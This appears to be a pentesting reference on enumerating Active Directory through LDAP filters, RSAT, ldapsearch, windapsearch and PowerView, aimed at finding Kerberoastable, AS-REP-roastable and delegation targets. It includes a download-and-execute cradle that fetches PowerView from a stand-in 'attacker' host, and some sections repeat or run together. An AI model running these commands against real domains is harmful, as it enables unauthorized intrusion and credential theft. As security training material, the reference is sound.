1. Active Directory LDAP
Active Directory stores its data in a hierarchical database accessed primarily through the Lightweight Directory Access Protocol (LDAP). Understanding LDAP query mechanics is essential for both enumeration and attack path discovery in AD environments.
1.1 AD Fundamentals
Active Directory Domain Services (AD DS) is Microsoft's directory service for Windows domain networks. It stores information about members of the domain (users, computers, groups, policies) and provides authentication and authorization services. Every object in AD is defined by a set of attributes stored in a schema.
1.1.1 Active Directory Overview
Active Directory Domain Services (AD DS) is Microsoft's directory service for Windows domain networks. It stores information about members of the domain (users, computers, groups, policies) and provides authentication and authorization services. Every object in AD is defined by a set of attributes stored in a schema.
Objects Enumerable by Any Domain User
Any authenticated domain user can query a wide range of AD objects by default. This is by design; AD relies on read access for normal operations such as locating printers, resolving group memberships, and validating service accounts.
| Object Type | Enumerable Data | Relevance |
|---|---|---|
| Users | sAMAccountName, memberOf, description, userAccountControl, pwdLastSet, lastLogon | Target identification, password spraying candidates |
| Groups | name, member, managedBy, groupType | Privilege mapping, lateral movement paths |
| Computers | dNSHostName, operatingSystem, servicePrincipalName, msDS-AllowedToDelegateTo | Target prioritization, delegation abuse |
| OUs | name, gpLink, description | GPO scope, organizational structure |
| GPOs | displayName, gPCFileSysPath | Policy auditing, privilege escalation |
| Trusts | trustPartner, trustDirection, trustType | Cross-domain and cross-forest attack paths |
Common AD Attacks Leveraging Misconfigurations
Many AD attacks exploit default or poorly configured access controls rather than software vulnerabilities. Common categories include:
| Category | Techniques |
|---|---|
| Credential Harvesting | Kerberoasting, AS-REP Roasting, LLMNR/NBT-NS poisoning |
| Privilege Escalation | ACL abuse, delegation abuse, GPO modification |
| Lateral Movement | Pass-the-Hash, Pass-the-Ticket, WMI/WinRM/DCOM execution |
| Persistence | Golden Ticket, Silver Ticket, DCSync, skeleton key |
| Trust Abuse | ExtraSids, SID History injection, cross-forest Kerberoasting |
Active Directory Structure
AD is organized in a hierarchical structure:
| Component | Description |
|---|---|
| Forest | Top-level security boundary. All domains share a common schema, configuration partition, and Global Catalog. Forests trust each other only through explicit trust relationships. |
| Domain | Primary administrative boundary. Each domain has its own domain controllers, security policies, and namespace (e.g., corp.example.com). |
| Organizational Unit (OU) | Container within a domain for organizing objects and applying Group Policy. OUs do not constitute a security boundary. |
| Sites | Physical network topology mappings that control replication and service location. Sites span domains. |
The three AD partitions replicated across domain controllers are:
| Partition | Naming Context (DN) | Contents |
|---|---|---|
| Domain | DC=corp,DC=example,DC=com | Users, computers, groups, OUs, GPOs |
| Configuration | CN=Configuration,DC=example,DC=com | Sites, subnets, ADCS CAs, trusts, replication topology |
| Schema | CN=Schema,CN=Configuration,DC=example,DC=com | Object class and attribute definitions |
1.1.2 Rights and Privileges in AD
Windows differentiates between rights (actions a user can perform on the system) and privileges (exemptions from access checks). Both are critical for understanding what an account can do on a host and across the domain.
Privileged AD Groups
Several built-in groups grant significant privileges across the domain:
| Group | Scope | Key Privileges |
|---|---|---|
| Domain Admins | Domain-wide | Full admin on all domain-joined machines, added to local Administrators on every host |
| Enterprise Admins | Forest-wide | Full admin across all domains in the forest (exists only in root domain) |
| Schema Admins | Forest-wide | Can modify the AD schema (root domain only) |
| Server Operators | Domain Controllers | Can log on to DCs, manage services, backup files |
| Account Operators | Domain-wide | Can create and manage most users and groups (not Domain Admins) |
| Backup Operators | Domain Controllers | Can backup and restore files on DCs (can extract NTDS.dit) |
| DnsAdmins | Domain-wide | Can configure DNS; abuse via DLL loading on the DNS service leads to SYSTEM on DC |
| Group Policy Creator Owners | Domain-wide | Can create new GPOs in the domain |
# Enumerate members of high-value groups
Get-ADGroupMember -Identity "Domain Admins" -Recursive | Select-Object Name, SamAccountName
Get-ADGroupMember -Identity "Enterprise Admins" -Recursive
Get-ADGroupMember -Identity "Backup Operators"User Rights Assignment
User Rights Assignment settings in Group Policy control which accounts can perform privileged operations on a host. Key assignments relevant to pentesting:
| Right | Constant | Impact |
|---|---|---|
| SeDebugPrivilege | Debug programs | Read/write any process memory (extract LSASS credentials) |
| SeImpersonatePrivilege | Impersonate a client | Potato-style escalation to SYSTEM |
| SeBackupPrivilege | Back up files and directories | Read any file regardless of ACL (extract NTDS.dit) |
| SeRestorePrivilege | Restore files and directories | Write any file regardless of ACL |
| SeTakeOwnershipPrivilege | Take ownership of files/objects | Seize ownership of any securable object |
| SeLoadDriverPrivilege | Load and unload device drivers | Kernel-mode code execution via malicious driver |
| SeAssignPrimaryTokenPrivilege | Replace a process-level token | Token manipulation for impersonation |
# Check current user privileges
whoami /priv
# Enumerate user rights on a remote host via GPO
Get-GPResultantSetOfPolicy -Computer DC01 -ReportType HTML -Path C:\gpo_report.html1.1.3 Microsoft Remote Server Administration Tools (RSAT)
RSAT provides a set of management tools for remotely administering Windows Server roles and features from a workstation. For AD enumeration, RSAT supplies the ActiveDirectory PowerShell module and GUI snap-ins like ADUC and GPMC.
RSAT Tools and Installation
On Windows 10/11, RSAT features are installed as optional capabilities:
# List available RSAT features
Get-WindowsCapability -Name RSAT* -Online | Select-Object Name, State
# Install the AD DS and LDS Tools feature (includes AD PowerShell module)
Add-WindowsCapability -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0 -Online
# Install DNS Server Tools
Add-WindowsCapability -Name Rsat.Dns.Tools~~~~0.0.1.0 -Online
# Install Group Policy Management Console
Add-WindowsCapability -Name Rsat.GroupPolicy.Management.Tools~~~~0.0.1.0 -OnlineOn older Windows Server versions, RSAT is installed via Server Manager (Add Roles and Features Wizard) or PowerShell:
Install-WindowsFeature RSAT-AD-PowerShell, RSAT-AD-Tools, RSAT-DNS-ServerDomain Context for Enumeration
When operating from a domain-joined machine with valid credentials, RSAT tools automatically bind to the user's current domain. For cross-domain enumeration or when running from a non-domain-joined system:
# Specify a domain controller and credentials explicitly
$cred = Get-Credential
Get-ADUser -Filter * -Server dc01.corp.local -Credential $cred
# Set a PSDrive to a different domain
New-PSDrive -Name TARGETAD -PSProvider ActiveDirectory -Server "dc01.target.local" -Credential $cred -Root "//RootDSE/"
cd TARGETAD:Enumeration with RSAT Snap-ins
RSAT includes several MMC snap-ins for visual enumeration:
- Active Directory Users and Computers (ADUC): browse users, groups, computers, OUs. Right-click an object for attribute details. Enable Advanced Features for security tab and attribute editor.
- Active Directory Sites and Services: view AD replication topology, site links, and subnet assignments.
- Group Policy Management Console (GPMC): browse GPOs linked to OUs, view GPO settings, check GPO permissions.
- DNS Manager: enumerate DNS zones, records, and identify hosts (forward and reverse lookups).
- ADSI Edit: low-level access to all AD objects and attributes. Connect to any naming context (Domain, Configuration, Schema).
1.1.4 The Power of NT AUTHORITY\SYSTEM
NT AUTHORITY\SYSTEM is the highest-privilege built-in account on a Windows system. It operates with full control over the local machine and, on domain-joined hosts, authenticates to the domain as the computer account.
SYSTEM Privileges
SYSTEM holds all privileges on the local system, including SeDebugPrivilege, SeImpersonatePrivilege, SeBackupPrivilege, and SeTakeOwnershipPrivilege. Common ways to obtain SYSTEM:
- PsExec:
psexec.exe -i -s cmd.exe(requires local admin) - Service creation: create a Windows service with the binary pointing to a payload
- Scheduled task: register a task running as SYSTEM
- Potato exploits: SeImpersonatePrivilege escalation (JuicyPotato, PrintSpoofer, GodPotato)
# Verify you are running as SYSTEM
whoami
# NT AUTHORITY\SYSTEM
# Check privileges
whoami /privSYSTEM and Domain Enumeration
When a computer is joined to a domain, its machine account (e.g., WORKSTATION01$) is a domain principal with its own password (auto-rotated every 30 days). Running as SYSTEM on a domain-joined host means AD queries execute in the context of that machine account. This provides:
- Authenticated access to LDAP for full AD enumeration
- The ability to request Kerberos tickets as the machine account
- Read access to the same AD objects as any domain user
- SPNs on the machine account that can be used for Silver Ticket forging if the NTLM hash is known
# As SYSTEM on a domain-joined machine, enumerate the domain
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
# Enumerate domain users via ADSI as the machine account
$searcher = New-Object System.DirectoryServices.DirectorySearcher
$searcher.Filter = "(objectClass=user)"
$searcher.FindAll() | ForEach-Object { $_.Properties["samaccountname"] }1.2 LDAP Protocol and Search Filters
LDAP (Lightweight Directory Access Protocol) is the primary protocol for querying and modifying AD. It operates on TCP port 389 (cleartext) and port 636 (LDAPS/TLS). Global Catalog queries use ports 3268 and 3269.
1.2.1 LDAP Overview
LDAP (Lightweight Directory Access Protocol) is the primary protocol for querying and modifying AD. It operates on TCP port 389 (cleartext) and port 636 (LDAPS/TLS). Global Catalog queries use ports 3268 and 3269.
LDAP Authentication
LDAP supports several authentication mechanisms:
| Method | Mechanism | Notes |
|---|---|---|
| Simple Bind | DN + password in cleartext | Must use LDAPS or channel binding; insecure over plain LDAP |
| SASL (GSSAPI) | Kerberos ticket | Default for domain-joined Windows clients; most secure |
| SASL (NTLM) | NTLM challenge-response | Fallback when Kerberos is unavailable |
| Anonymous Bind | No credentials | Disabled by default on Windows Server 2003+; exposes rootDSE at minimum |
# LDAP simple bind test with ldapsearch
ldapsearch -x -H ldap://dc01.corp.local -D "CN=user,CN=Users,DC=corp,DC=local" -w 'Password123' -b "DC=corp,DC=local" "(objectClass=user)" sAMAccountName
# LDAPS connection
ldapsearch -x -H ldaps://dc01.corp.local -D "user@corp.local" -w 'Password123' -b "DC=corp,DC=local"LDAP Queries
An LDAP query consists of several components:
- Base DN: the starting point in the directory tree (e.g.,
DC=corp,DC=local) - Scope: how deep to search (Base, OneLevel, Subtree)
- Filter: the search criteria (e.g.,
(objectClass=user)) - Attributes: which attributes to return (e.g.,
sAMAccountName,memberOf)
# PowerShell ADSI query
$searcher = New-Object System.DirectoryServices.DirectorySearcher
$searcher.SearchRoot = "LDAP://DC=corp,DC=local"
$searcher.Filter = "(&(objectCategory=person)(objectClass=user))"
$searcher.PropertiesToLoad.Add("samaccountname") | Out-Null
$searcher.PropertiesToLoad.Add("memberof") | Out-Null
$searcher.FindAll()1.2.2 Active Directory Search Filters (PowerShell)
The Get-ADUser, Get-ADGroup, and Get-ADComputer cmdlets from the ActiveDirectory module accept -Filter and -LDAPFilter parameters. The -Filter parameter uses PowerShell-style syntax while -LDAPFilter takes standard LDAP filter strings.
PowerShell Filter Operators
| Operator | Description | Example |
|---|---|---|
-eq | Equal | Name -eq "John" |
-ne | Not equal | Enabled -ne $false |
-like | Wildcard match | Name -like "svc*" |
-notlike | Wildcard not match | Name -notlike "admin*" |
-gt / -lt | Greater / less than | BadLogonCount -gt 5 |
-ge / -le | Greater or equal / less or equal | logonCount -ge 1 |
-and | Logical AND | (Enabled -eq $true) -and (Name -like "svc*") |
-or | Logical OR | (Name -like "*admin*") -or (Name -like "*svc*") |
-not | Logical NOT | -not (Name -like "test*") |
Filter Examples
# Find all enabled users
Get-ADUser -Filter {Enabled -eq $true} -Properties LastLogonDate | Select-Object Name, LastLogonDate
# Find service accounts (SPN set)
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName
# Find users with password never expires
Get-ADUser -Filter {PasswordNeverExpires -eq $true} -Properties PasswordNeverExpires
# Find users whose password has not changed in 90 days
$cutoff = (Get-Date).AddDays(-90)
Get-ADUser -Filter {PasswordLastSet -lt $cutoff} -Properties PasswordLastSet | Select-Object Name, PasswordLastSet
# Find disabled computer accounts
Get-ADComputer -Filter {Enabled -eq $false}
# Find all groups containing "admin" in the name
Get-ADGroup -Filter {Name -like "*admin*"}Escaped Characters in Filters
Certain characters must be escaped in LDAP filter strings using their hex representation:
| Character | Escape Sequence |
|---|---|
* | \2a |
( | \28 |
) | \29 |
\ | \5c |
NUL | \00 |
# Searching for a user with parentheses in the CN
Get-ADUser -LDAPFilter "(cn=John \28IT\29)"1.2.3 LDAP Search Filters
LDAP search filters follow a prefix notation defined in RFC 4515. Every filter is enclosed in parentheses and can combine simple assertions with boolean operators.
LDAP Filter Syntax and Operators
LDAP filters use prefix (Polish) notation. Operators precede their operands:
| Operator | Syntax | Example |
|---|---|---|
| AND | (&(filter1)(filter2)) | (&(objectClass=user)(enabled=TRUE)) |
| OR | (|(filter1)(filter2)) | (|(sAMAccountName=admin)(sAMAccountName=svc*)) |
| NOT | (!(filter)) | (!(userAccountControl:1.2.840.113556.1.4.803:=2)) |
| Equality | (attribute=value) | (sAMAccountName=jsmith) |
| Presence | (attribute=*) | (servicePrincipalName=*) |
| Substring | (attribute=*value*) | (cn=*admin*) |
| Approx | (attribute~=value) | (sn~=Smith) |
| GTE / LTE | (attribute>=value) | (whenCreated>=20230101000000.0Z) |
Search Criteria and Rules
Filters can be nested to arbitrary depth. Complex queries combine AND, OR, and NOT:
# Find enabled users with an SPN set (Kerberoastable)
"(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"
# Find computers running Windows Server
"(&(objectClass=computer)(operatingSystem=*Server*))"
# Find users in Domain Admins or Enterprise Admins
"(&(objectClass=user)(|(memberOf=CN=Domain Admins,CN=Users,DC=corp,DC=local)(memberOf=CN=Enterprise Admins,CN=Users,DC=corp,DC=local)))"Filter Types, Item Types, and Escaped Characters
Filters operate on attribute types. AD attributes can be string, integer, boolean, DN, octet string, or generalized time. When filtering on binary attributes (like objectSid or objectGUID), values must be hex-escaped byte by byte:
# Filter by SID (each byte escaped)
"(objectSid=\01\05\00\00\00\00\00\05\15\00\00\00...)"
# Filter by GUID
"(objectGUID=\a1\b2\c3...)"The same character escaping rules from section 2.6.3 apply. Additionally, when querying from Linux with ldapsearch, special shell characters must be quoted or escaped.
Matching Rule OIDs
AD extends LDAP with extensible matching rules for bitwise and chain (recursive) operations:
| OID | Name | Use |
|---|---|---|
1.2.840.113556.1.4.803 | LDAP_MATCHING_RULE_BIT_AND | Bitwise AND on integer attributes (e.g., userAccountControl flags) |
1.2.840.113556.1.4.804 | LDAP_MATCHING_RULE_BIT_OR | Bitwise OR on integer attributes |
1.2.840.113556.1.4.1941 | LDAP_MATCHING_RULE_IN_CHAIN | Recursive/transitive membership lookup (nested groups) |
# Find accounts with "Password Not Required" (UAC flag 0x20 = 32)
"(userAccountControl:1.2.840.113556.1.4.803:=32)"
# Find disabled accounts (UAC flag 0x2 = 2)
"(userAccountControl:1.2.840.113556.1.4.803:=2)"
# Find all users who are members (including nested) of Domain Admins
"(memberOf:1.2.840.113556.1.4.1941:=CN=Domain Admins,CN=Users,DC=corp,DC=local)"Practical LDAP Filter Examples
# Kerberoastable accounts (enabled user with SPN)
"(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"
# AS-REP Roastable accounts (DONT_REQUIRE_PREAUTH set)
"(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"
# Accounts trusted for unconstrained delegation (not DCs)
"(&(userAccountControl:1.2.840.113556.1.4.803:=524288)(!(userAccountControl:1.2.840.113556.1.4.803:=8192)))"
# Users with constrained delegation configured
"(&(objectClass=user)(msDS-AllowedToDelegateTo=*))"
# LAPS-managed computers (ms-Mcs-AdmPwd attribute present)
"(&(objectClass=computer)(ms-Mcs-AdmPwd=*))"
# Users with adminCount=1 (direct or indirect admin)
"(&(objectCategory=person)(objectClass=user)(adminCount=1))"
# Computers with the TRUSTED_FOR_DELEGATION flag
"(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))"1.2.4 Recursive Match and Search Scope
AD frequently uses nested group memberships. A user may belong to "IT Staff," which is a member of "IT Admins," which is a member of "Domain Admins." Standard memberOf queries only return direct memberships. Recursive (transitive) matching resolves the full chain.
Recursive Match (Nested Group Membership)
The LDAP_MATCHING_RULE_IN_CHAIN OID (1.2.840.113556.1.4.1941) traverses nested group memberships:
# PowerShell: find all users who are transitively members of Domain Admins
Get-ADUser -LDAPFilter "(memberOf:1.2.840.113556.1.4.1941:=CN=Domain Admins,CN=Users,DC=corp,DC=local)"
# PowerShell (AD module): recursive flag
Get-ADGroupMember -Identity "Domain Admins" -Recursive# ldapsearch: transitive membership
ldapsearch -x -H ldap://dc01.corp.local -D "user@corp.local" -w 'Pass' -b "DC=corp,DC=local" \
"(memberOf:1.2.840.113556.1.4.1941:=CN=Domain Admins,CN=Users,DC=corp,DC=local)" sAMAccountNameSearchBase and SearchScope Parameters
LDAP search scope controls the depth of the query from the base DN:
| Scope | Behavior | PowerShell Value |
|---|---|---|
| Base | Returns only the base object itself | -SearchScope Base |
| OneLevel | Returns immediate children of the base (not the base itself) | -SearchScope OneLevel |
| Subtree | Returns the base and all descendants (default) | -SearchScope Subtree |
# Search only within a specific OU
Get-ADUser -Filter * -SearchBase "OU=ServiceAccounts,DC=corp,DC=local" -SearchScope OneLevel
# Search the entire domain (default subtree)
Get-ADUser -Filter * -SearchBase "DC=corp,DC=local"
# Check attributes of a single object (base scope)
Get-ADObject -Identity "CN=Administrator,CN=Users,DC=corp,DC=local" -SearchScope Base -Properties *1.3 Enumerating AD with Built-in Tools
Even without third-party tools, Windows provides several built-in methods for AD enumeration. These approaches generate less suspicious telemetry compared to offensive tooling.
1.3.1 User-Account-Control (UAC) Attributes
The userAccountControl attribute is a bitmask storing account flags. Key flags relevant to attacks:
| Flag | Hex Value | Decimal | Meaning |
|---|---|---|---|
| ACCOUNTDISABLE | 0x0002 | 2 | Account is disabled |
| PASSWD_NOTREQD | 0x0020 | 32 | No password required |
| NORMAL_ACCOUNT | 0x0200 | 512 | Standard user account |
| DONT_EXPIRE_PASSWORD | 0x10000 | 65536 | Password never expires |
| DONT_REQ_PREAUTH | 0x400000 | 4194304 | Kerberos pre-auth not required (AS-REP Roastable) |
| TRUSTED_FOR_DELEGATION | 0x80000 | 524288 | Unconstrained delegation enabled |
| TRUSTED_TO_AUTH_FOR_DELEGATION | 0x1000000 | 16777216 | Constrained delegation with protocol transition (S4U2Self) |
1.3.2 DS Tools
The ds* command-line tools are available on any domain-joined Windows machine:
# dsquery: query AD for objects matching criteria
dsquery user -inactive 4 # Users inactive for 4+ weeks
dsquery computer -stalepwd 90 # Computers with stale passwords
dsquery * -filter "(servicePrincipalName=*)" -attr sAMAccountName servicePrincipalName
# dsget: retrieve attributes of a specific object
dsget user "CN=Administrator,CN=Users,DC=corp,DC=local" -memberof -expand
# dsmod: modify AD objects (requires appropriate permissions)
dsmod user "CN=TestUser,CN=Users,DC=corp,DC=local" -pwd NewPass123!1.3.3 AD PowerShell Module
# Import the module
Import-Module ActiveDirectory
# Basic enumeration
Get-ADDomain # Domain info
Get-ADForest # Forest info
Get-ADUser -Filter * -Properties * # All users (caution: heavy query)
Get-ADGroup -Filter * | Measure-Object # Count all groups
Get-ADComputer -Filter * -Properties OperatingSystem | Select-Object Name, OperatingSystem
Get-ADTrust -Filter * # Domain trusts
# Targeted queries
Get-ADUser -Identity administrator -Properties *
Get-ADUser -Filter {AdminCount -eq 1} # Protected accounts1.3.4 Windows Management Instrumentation (WMI)
# WMI queries for system information
Get-WmiObject -Class Win32_OperatingSystem | Select-Object Caption, Version, BuildNumber
Get-WmiObject -Class Win32_ComputerSystem | Select-Object Domain, DomainRole
# Remote WMI query
Get-WmiObject -Class Win32_Service -ComputerName DC01 | Where-Object { $_.StartName -like "*admin*" }
# CIM (modern replacement for WMI)
Get-CimInstance -ClassName Win32_UserAccount -ComputerName DC01 | Select-Object Name, Disabled1.3.5 AD Service Interfaces (ADSI)
ADSI provides low-level access to AD through COM objects. It works without the AD PowerShell module installed:
# Connect to the domain root
$domain = [ADSI]"LDAP://DC=corp,DC=local"
$domain.distinguishedName
# Create a directory searcher
$searcher = New-Object System.DirectoryServices.DirectorySearcher($domain)
$searcher.Filter = "(&(objectCategory=person)(objectClass=user))"
$searcher.PropertiesToLoad.AddRange(@("samaccountname","memberof","description"))
$results = $searcher.FindAll()
foreach ($r in $results) {
$r.Properties["samaccountname"]
}
# Query a specific object
$user = [ADSI]"LDAP://CN=Administrator,CN=Users,DC=corp,DC=local"
$user.memberOf
# Connect with alternate credentials
$entry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=corp,DC=local", "corp\user", "Password123")
$searcher = New-Object System.DirectoryServices.DirectorySearcher($entry)
$searcher.Filter = "(objectClass=group)"
$searcher.FindAll()Methodology
- Query inactive users and stale computer accounts with dsquery:
dsquery user -inactive 4 dsquery computer -stalepwd 90 - Enumerate accounts with SPNs (Kerberoastable) via dsquery:
dsquery * -filter "(servicePrincipalName=*)" -attr sAMAccountName servicePrincipalName - Enumerate domain info, users, groups, trusts, and protected accounts with the AD PowerShell module:
Import-Module ActiveDirectory Get-ADDomain Get-ADForest Get-ADUser -Filter {AdminCount -eq 1} Get-ADComputer -Filter * -Properties OperatingSystem | Select-Object Name, OperatingSystem Get-ADTrust -Filter * - Query remote systems via WMI/CIM for services running under privileged accounts:
Get-WmiObject -Class Win32_Service -ComputerName DC01 | Where-Object { $_.StartName -like "*admin*" } Get-CimInstance -ClassName Win32_UserAccount -ComputerName DC01 | Select-Object Name, Disabled - Use ADSI DirectorySearcher to enumerate users without the AD module installed:
$domain = [ADSI]"LDAP://DC=corp,DC=local" $searcher = New-Object System.DirectoryServices.DirectorySearcher($domain) $searcher.Filter = "(&(objectCategory=person)(objectClass=user))" $searcher.PropertiesToLoad.AddRange(@("samaccountname","memberof","description")) $results = $searcher.FindAll() foreach ($r in $results) { $r.Properties["samaccountname"] } - Connect via ADSI with alternate credentials for cross-domain or stealth enumeration:
$entry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=corp,DC=local", "corp\user", "Password123") $searcher = New-Object System.DirectoryServices.DirectorySearcher($entry) $searcher.Filter = "(objectClass=group)" $searcher.FindAll()
1.4 LDAP Enumeration
LDAP anonymous bind allows unauthenticated queries to the directory. While Windows Server 2003 and later restrict anonymous LDAP by default, misconfigurations or legacy environments may still permit it. An anonymous bind always returns the rootDSE object, which reveals the domain naming context, supported LDAP controls, and domain functional level.
1.4.1 LDAP Anonymous Bind
LDAP anonymous bind allows unauthenticated queries to the directory. While Windows Server 2003 and later restrict anonymous LDAP by default, misconfigurations or legacy environments may still permit it. An anonymous bind always returns the rootDSE object, which reveals the domain naming context, supported LDAP controls, and domain functional level.
Checking for Anonymous Bind
# Quick check: query rootDSE anonymously (always works)
ldapsearch -x -H ldap://dc01.corp.local -s base -b "" "(objectClass=*)" namingContexts defaultNamingContext
# Attempt anonymous enumeration of domain objects
ldapsearch -x -H ldap://dc01.corp.local -b "DC=corp,DC=local" "(objectClass=user)" sAMAccountName
# If this returns results, anonymous bind is misconfiguredUsing ldapsearch for Anonymous Enumeration
# Enumerate naming contexts (always available via rootDSE)
ldapsearch -x -H ldap://10.10.10.10 -s base -b "" namingContexts
# Extract domain functional level
ldapsearch -x -H ldap://10.10.10.10 -s base -b "" domainFunctionality
# If anonymous access is enabled, enumerate users
ldapsearch -x -H ldap://10.10.10.10 -b "DC=corp,DC=local" "(&(objectClass=user)(objectCategory=person))" sAMAccountName description memberOf
# Enumerate all groups
ldapsearch -x -H ldap://10.10.10.10 -b "DC=corp,DC=local" "(objectClass=group)" cn memberUsing windapsearch for Anonymous Enumeration
# windapsearch anonymous enumeration
python3 windapsearch.py -d corp.local --dc-ip 10.10.10.10 -U
python3 windapsearch.py -d corp.local --dc-ip 10.10.10.10 -G
python3 windapsearch.py -d corp.local --dc-ip 10.10.10.10 -C
# Go version
./windapsearch -d corp.local --dc 10.10.10.10 --module users
./windapsearch -d corp.local --dc 10.10.10.10 --module groupsUsing ldapsearch-ad.py
# ldapsearch-ad.py anonymous enumeration
python3 ldapsearch-ad.py -l 10.10.10.10 -d corp.local -t info
python3 ldapsearch-ad.py -l 10.10.10.10 -d corp.local -t search -s "(objectClass=user)" sAMAccountName1.4.2 Credentialed LDAP Enumeration
With valid domain credentials, LDAP enumeration provides comprehensive access to AD objects. Credentialed queries return all user-readable attributes, enabling thorough attack surface mapping.
Credentialed windapsearch
# Enumerate all domain users
python3 windapsearch.py -d corp.local --dc-ip 10.10.10.10 -u "user@corp.local" -p "Password123" -U --full
# Enumerate domain admins
python3 windapsearch.py -d corp.local --dc-ip 10.10.10.10 -u "user@corp.local" -p "Password123" --da
# Enumerate computers
python3 windapsearch.py -d corp.local --dc-ip 10.10.10.10 -u "user@corp.local" -p "Password123" -C
# Find Kerberoastable accounts
python3 windapsearch.py -d corp.local --dc-ip 10.10.10.10 -u "user@corp.local" -p "Password123" -U --attrs sAMAccountName,servicePrincipalName --filter "(servicePrincipalName=*)"
# Enumerate unconstrained delegation
python3 windapsearch.py -d corp.local --dc-ip 10.10.10.10 -u "user@corp.local" -p "Password123" --unconstrained-users
python3 windapsearch.py -d corp.local --dc-ip 10.10.10.10 -u "user@corp.local" -p "Password123" --unconstrained-computersCredentialed ldapsearch-ad.py
# Domain info
python3 ldapsearch-ad.py -l 10.10.10.10 -d corp.local -u user -p Password123 -t info
# Enumerate users
python3 ldapsearch-ad.py -l 10.10.10.10 -d corp.local -u user -p Password123 -t search \
-s "(&(objectCategory=person)(objectClass=user))" sAMAccountName description memberOf
# Enumerate trusts
python3 ldapsearch-ad.py -l 10.10.10.10 -d corp.local -u user -p Password123 -t trusts
# Dump password policy
python3 ldapsearch-ad.py -l 10.10.10.10 -d corp.local -u user -p Password123 -t pass-pol
# Kerberoastable accounts
python3 ldapsearch-ad.py -l 10.10.10.10 -d corp.local -u user -p Password123 -t kerberoast
# AS-REP Roastable accounts
python3 ldapsearch-ad.py -l 10.10.10.10 -d corp.local -u user -p Password123 -t asreproast
# Full LDAP dump
ldapsearch -x -H ldap://10.10.10.10 -D "user@corp.local" -w 'Password123' -b "DC=corp,DC=local" \
"(&(objectCategory=person)(objectClass=user))" sAMAccountName userAccountControl memberOf \
servicePrincipalName pwdLastSet description adminCountMethodology
- Probe rootDSE for naming contexts and domain functional level (always works anonymously):
ldapsearch -x -H ldap://dc01.corp.local -s base -b "" "(objectClass=*)" namingContexts defaultNamingContext ldapsearch -x -H ldap://10.10.10.10 -s base -b "" domainFunctionality - Test for anonymous bind misconfiguration by querying domain users and groups:
ldapsearch -x -H ldap://10.10.10.10 -b "DC=corp,DC=local" "(&(objectClass=user)(objectCategory=person))" sAMAccountName description memberOf ldapsearch -x -H ldap://10.10.10.10 -b "DC=corp,DC=local" "(objectClass=group)" cn member - Run windapsearch anonymous enumeration for users, groups, and computers:
python3 windapsearch.py -d corp.local --dc-ip 10.10.10.10 -U python3 windapsearch.py -d corp.local --dc-ip 10.10.10.10 -G python3 windapsearch.py -d corp.local --dc-ip 10.10.10.10 -C - With valid credentials, enumerate domain admins, Kerberoastable accounts, and unconstrained delegation:
python3 windapsearch.py -d corp.local --dc-ip 10.10.10.10 -u "user@corp.local" -p "Password123" --da python3 windapsearch.py -d corp.local --dc-ip 10.10.10.10 -u "user@corp.local" -p "Password123" -U --attrs sAMAccountName,servicePrincipalName --filter "(servicePrincipalName=*)" python3 windapsearch.py -d corp.local --dc-ip 10.10.10.10 -u "user@corp.local" -p "Password123" --unconstrained-users python3 windapsearch.py -d corp.local --dc-ip 10.10.10.10 -u "user@corp.local" -p "Password123" --unconstrained-computers - Use ldapsearch-ad.py to dump password policy, Kerberoastable accounts, and AS-REP Roastable accounts:
python3 ldapsearch-ad.py -l 10.10.10.10 -d corp.local -u user -p Password123 -t pass-pol python3 ldapsearch-ad.py -l 10.10.10.10 -d corp.local -u user -p Password123 -t kerberoast python3 ldapsearch-ad.py -l 10.10.10.10 -d corp.local -u user -p Password123 -t asreproast - Perform a full credentialed LDAP dump of key user attributes:
ldapsearch -x -H ldap://10.10.10.10 -D "user@corp.local" -w 'Password123' -b "DC=corp,DC=local" \ "(&(objectCategory=person)(objectClass=user))" sAMAccountName userAccountControl memberOf \ servicePrincipalName pwdLastSet description adminCount
2. Active Directory PowerView
PowerView is a PowerShell-based AD reconnaissance tool developed by Will Schroeder (harmj0y) as part of the PowerSploit framework. Its .NET counterpart, SharpView, provides equivalent functionality as a compiled C# assembly. Both tools query AD through LDAP, providing extensive enumeration capabilities beyond what the built-in AD module offers.
2.1 PowerView and SharpView Overview
PowerView loads as a PowerShell script (PowerView.ps1) while SharpView compiles to a .NET executable. Both produce identical LDAP queries under the hood. PowerView remains popular for its flexibility; SharpView is useful when PowerShell is constrained.
# Load PowerView
Import-Module .\PowerView.ps1
# Or via web cradle
IEX (New-Object Net.WebClient).DownloadString('http://attacker/PowerView.ps1')
# SharpView (compiled .NET)
.\SharpView.exe Get-DomainUser -Identity administrator2.1.1 Misc Functions
| Function | Description |
|---|---|
Export-PowerViewCSV | Append results to a CSV file in a thread-safe manner |
ConvertTo-SID | Convert a username or group name to its Security Identifier |
Convert-ADName | Convert between AD name formats (DN, canonical, NT4, display) |
ConvertFrom-UACValue | Decode userAccountControl integer into human-readable flags |
Get-DomainSPNTicket | Request a Kerberos TGS ticket for a given SPN (Kerberoasting) |
Invoke-Kerberoast | Kerberoast all accounts with SPNs in the current domain |
Get-PathAcl | Get the ACL for a specified file path or registry key |
2.1.2 Domain and LDAP Functions
| Function | Description |
|---|---|
Get-Domain | Returns the AD domain object for the current or specified domain |
Get-DomainController | Returns domain controller objects for the current domain |
Get-DomainUser | Returns all users or specific user objects in the domain |
Get-DomainComputer | Returns all computer objects in the domain |
Get-DomainGroup | Returns all groups or specific group objects |
Get-DomainGroupMember | Returns members of a specific domain group |
Get-DomainOU | Returns all organizational units in the domain |
Get-DomainSID | Returns the SID for the current or specified domain |
Get-DomainPolicy | Returns the default domain policy or domain controller policy |
Get-DomainObject | Generic function to return any AD object |
Get-DomainObjectAcl | Returns ACLs associated with a specified AD object |
Set-DomainObject | Modifies an AD object (e.g., set SPN for targeted Kerberoasting) |
Set-DomainObjectOwner | Change the owner of an AD object |
Add-DomainObjectAcl | Add an ACE to an AD object's ACL |
Find-InterestingDomainAcl | Find ACLs with non-default, potentially abusable permissions |
